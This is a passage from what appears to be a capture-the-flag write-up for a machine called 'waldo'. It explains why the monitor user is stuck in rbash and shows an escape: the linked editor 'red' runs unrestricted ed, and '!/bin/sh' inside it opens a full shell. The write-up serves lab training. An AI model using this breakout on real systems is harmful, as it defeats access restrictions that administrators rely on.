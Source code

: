 #### What Sets the Shell

The `rbash` environment I’m given is set in two places. First, if i look in
`/etc/passwd`for the monitor user, I’ll see its shell is set to `rbash`:

    
    
    monitor@waldo:~$ grep monitor /etc/passwd
    monitor:x:1001:1001:User for editing source and monitoring logs,,,:/home/monitor:/bin/rbash
    

`rbash` will restrict my use of `cd`, changing the path, and calling programs
outside my given path. Then, the path is set on the last line of the .bashrc
file, which is sourced at shell creation time:

    
    
    monitor@waldo:~$ tail -1 .bashrc
    PATH=/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
    

In both escapes that follow, once I’m able to get a different shell, I’m able
to change the path, and I’ve completely escaped.

#### Intended Route: red

In the bin dir, I’ll find a few editors:

    
    
    monitor@waldo:~$ ls -l bin
    total 0
    lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
    lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
    lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
    lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano
    

For each editor, they link back to the normal versions. Sometimes there’s an
`r` in front of the name (to imply restricted). Neither `nano` nor `most` have
any ability to run shell commands.

`red` is the name for the restricted version of `ed`, that doesn’t allow you
to call system commands from inside it, for example. But this `red` just links
back to unrestricted `ed`, not to an instance of `red`.

To escape `rbash` via `ed`, I’ll take advantage of `ed`’s ability to run shell
commands. From the `ed` man page:

> !_command_
>
> Executes _command_ via **sh**(1). If the first character of _command_ is
> ‘!’, then it is replaced by text of the previous _‘!command’_. **ed** does
> not process _command_ for backslash () escapes. However, an unescaped _’%’_
> is replaced by the default filename. When the shell returns from execution,
> a ‘!’ is printed to the standard output. The current line is unchanged.

So, I can just open `ed`, type `!/bin/sh`, and have a full shell:

    
    
    monitor@waldo:~$ red
    !/bin/sh
    $ pwd
    /home/monitor
    $ cd /
    $ ls
    bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
    